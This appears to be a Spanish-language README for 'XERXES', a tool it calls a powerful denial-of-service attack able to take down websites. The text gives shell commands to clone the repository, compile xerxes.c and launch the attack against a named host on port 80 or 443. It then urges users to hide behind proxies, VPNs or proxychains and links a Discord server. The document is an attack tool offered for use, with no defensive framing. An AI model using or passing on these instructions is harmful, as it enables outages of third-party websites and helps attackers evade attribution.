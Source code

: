 ### XERXES

Que es XERXES un ataque (DOS) potente capaz de tumbar paginas web iniciando con solo un cmd aca abajo.

### CREAR REPO
```
@root-# git clone https://github.com/luis498/XERXES.git
```

### ENTRAR
```
@root-# cd (Buscalo)
```

### INGRESAR
```
@root-# gcc xerxes.c -o xerxes
```

### ATACAR [NO PONGAS EL HTTPS://]
```
@root-# ./xerxes Truchorko.xyz 80/443
```

SER [ANÓNIMO](https://en.wikipedia.org/wiki/The_Jester_%28hacktivist%29) USAR [PROXY](https://en.wikipedia.org/wiki/The_Jester_%28hacktivist%29) VPN [OPENVPN](https://en.wikipedia.org/wiki/The_Jester_%28hacktivist%29) O [PROXYCHAINS](https://en.wikipedia.org/wiki/The_Jester_%28hacktivist%29)



Made By Truchorko#777 [Discord](https://discord.gg/eByRx2MDGu)
